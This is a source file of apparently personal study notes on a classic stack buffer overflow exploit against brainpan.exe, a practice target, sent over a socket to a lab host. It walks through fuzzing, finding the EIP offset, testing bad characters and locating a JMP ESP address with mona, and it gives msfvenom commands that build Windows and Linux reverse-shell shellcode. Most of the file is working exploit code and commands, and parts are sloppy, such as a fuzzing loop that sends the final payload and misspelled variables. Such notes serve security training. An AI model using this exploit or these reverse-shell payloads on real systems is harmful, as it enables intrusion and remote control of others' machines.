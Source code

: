# Buff_Over_flo

    //****buffer overflow steps -- use immunity debugger-open the file, sitting betwin file and attack host, view the ram space of the file running
    //1. code to test how long a input strings will make the app crashed. in 100 byte level
    //2. exactly the longth to EIP (4 bytes), the offset
    //3. check how long strings the ESP can accept, we need almost 400-500 bytes.
    //4. send the paylaod, offset + EIP(the address of ESP) + PAD ("\x90"*16) + shellcode(write to ESP)

    //code for setp1
    buffer =["A"]
    counter = 100

    while len(buffer) <=30:
        buffer.append("A"*counter)
        counter += 100

    for i in buffer:
        buffer = "A"*524 + "\xf3\x12\x17\x31"+ pad + shell
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect = s.connect(('192.168.56.117',9999))
        s.send(buffer)
        data = s.recv(1024)
        print(len(bufer), "Sent! ")
        s.close()
    //here the length is the value of offset
//step 2 codes
    //buffer > offset ,but < offset +100
    //we tried to sent the length of buffer to get exactly offset, to make B to write on EIP addr
    buffer ="A"*x + "B"*4
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    connect = s.connect(('192.168.56.117',9999))
    s.send(buffer)
    data = s.recv(1024)
    s.close()

//step3
    //change buffer = "A"*offset + "B"*4 + "C"*500 (500bytes is enough for revershell )
    //use same code as step2
    // send the bad char strings to test badchar which is not accept by the target software, ohter than \x00
    //the payload is "\x01 -- \xff"
//step4
    buffer = "A"*offset + (the address of ESP) + PAD + shellcode
    //for ESP, we need to map the opcode(operation code) of JMP ESP, that is \xff\xe4.
        //!mona modules (mona.py) -- to check the sofatware is protected or not,  if it is false, we can find the addr os EIP, by find \xff\xe4
        //!mona find -s "\xff\xe4" -m brainpan.exe, we get a addr 311712f3, but the addr in the ram is "\xf3\x12\x17\x31"  //!mona jmp -r esp -cpb "\x00"
    //  reverse shellcode of bytes format,
        //msfvenom -p windows/shell_reverse_tcp LHOST=xx LPORT=xx EXITFUNC=thread -f c -a x86 -b "\x00" (use to test on win host)
        //msfvenom -p linux/x86/shell_reverse_tcp LHOST=xx LPORT=xx EXITFUNC=thread -f c -a x86 -b "\x00" (use on kali)
